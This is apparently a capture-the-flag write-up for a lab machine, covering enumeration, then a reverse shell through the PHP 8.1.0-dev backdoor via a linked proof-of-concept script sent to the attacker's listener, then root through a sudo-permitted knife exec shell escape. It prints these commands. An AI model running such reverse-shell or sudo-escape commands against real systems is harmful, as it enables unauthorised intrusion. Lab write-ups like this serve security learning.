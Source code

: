 # Enumeration

## Nmap

I start with a simple nmap scan. This system is running an Apache web server on port 8- and OpenSSH over port 22. 

![Untitled](POC/nmap.png)

Most of these boxes run ssh over port 22 to allow users to ssh into the box once they obtain initial access, in order to provide a more stable shell. Because of this, I will focus on the web server for now.

## Website

I navigate to the website which looks pretty simple, and none of the buttons have been configured to navigate anywhere.

![Untitled](POC/website.png)

I try adding `/index.php` to the end of the URL, and get the same page. This indicates to me that the website is PHP based. I’ll head to dirb to try and find some potential vectors.

## Dirb

The scan comes back with nothing new besides `/server-status` which doesn’t help.

![Untitled](POC/dirb.png)

With how little I have uncovered at this point, I begin to think this may be a vulnerability with a specific version. The SSH and Apache versions are not vulnerable, and the only other thing I know about this box is that the website runs PHP.

## PHP 8.1

I had neglected to check Wappalyzer when I initially enumerated the website, but looking at it now I find that the PHP is version 8.1.0. 

![Untitled](POC/wappalyzer.png)

A quick google search reveals that this version of PHP is vulnerable to a backdoor which allows for remote code execution, just what I was looking for!

# Exploitation

## PHP 8.1 Backdoor

The first link I explore is a github POC for a [python script](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) which exploits the vulnerability to create a reverse shell. I’ll copy the script into a new python file named `rev.py` and give it the proper arguments to send a reverse shell. 

```bash
python3 rev.py http://knife.htb:80/ 10.10.14.2 1234
```

Before I send the payload, I start up a netcat listener on port 1234 to catch the shell. Once I send the payload, I get the shell back almost immediately!

![Untitled](POC/reverse_shell.png)

It seems I have obtained access as a user named james.

## User Flag

Before I go any further, I navigate to the user’s home directory and grab the user flag.

![Untitled](POC/user_flag.png)

# Privelege Escalation

## Sudo Commands

When trying to escalate priviledges on linux boxes, my first step is always running `sudo -l` to see what commands the user can run as sudo. We get lucky and it looks like this user can run knife as sudo!

![Untitled](POC/james_sudo.png)

## Knife

Since I am not familiar with knife, I’ll take a look at [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) and see what I can find. I find that knife has an exec command that executes Ruby code. From previous boxes I know that Ruby can be used to escalate priviledges as well with `sudo ruby -e 'exec "/bin/sh"’` . The code that is actually executed in that case is `exec "/bin/sh"` , so I should be able to do the same here.

```bash
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
```

Using knife to execute the Ruby code I am given a new shell. Running `whoami` reveals I have obtained root access!

![Untitled](POC/root.png)

## Root Flag

With root access I can grab the root flag from the root directory!

![Untitled](POC/root_flag.png)
